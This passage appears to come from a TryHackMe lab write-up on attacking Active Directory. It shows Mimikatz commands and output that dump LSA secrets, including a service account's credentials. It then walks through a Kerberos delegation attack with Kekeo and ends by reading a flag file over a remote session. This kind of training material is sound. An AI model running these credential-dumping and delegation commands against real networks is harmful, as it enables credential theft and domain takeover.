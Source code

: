 ```shell-session
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
 [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret : $MACHINE.ACC
cur/text: redacted
 NTLM:redacted
 SHA1:redacted
old/text: redacted
 NTLM:redacted
 SHA1:redacted

Secret : DefaultPassword
cur/text: redacted
old/text: redacted

Secret : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted

mimikatz #
```

Let's run through the two commands:

- token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
- lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security). You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the `token::elevate` command, otherwise the tickets will be loaded in the wrong context later on. We will use Kekeo to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:


```shell-session
PS C:\> C:\Tools\kekeo\x64\kekeo.exe

 ___ _ kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 / ('>- "A La Vie, A L'Amour"
 | K | /* * *
 \____/ Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 L\_ https://blog.gentilkiwi.com/kekeo (oe.eo)
 with 10 modules * * */

kekeo #
```


We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:

```shell-session

kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
Realm : za.tryhackme.loc (za)
User : svcIIS (svcIIS)
CName : svcIIS [KRB_NT_PRINCIPAL (1)]
SName : krbtgt/za.tryhackme.loc [KRB_NT_SRV_INST (2)]
Need PAC : Yes
Auth mode : ENCRYPTION KEY 23 (rc4_hmac_nt ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
 > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt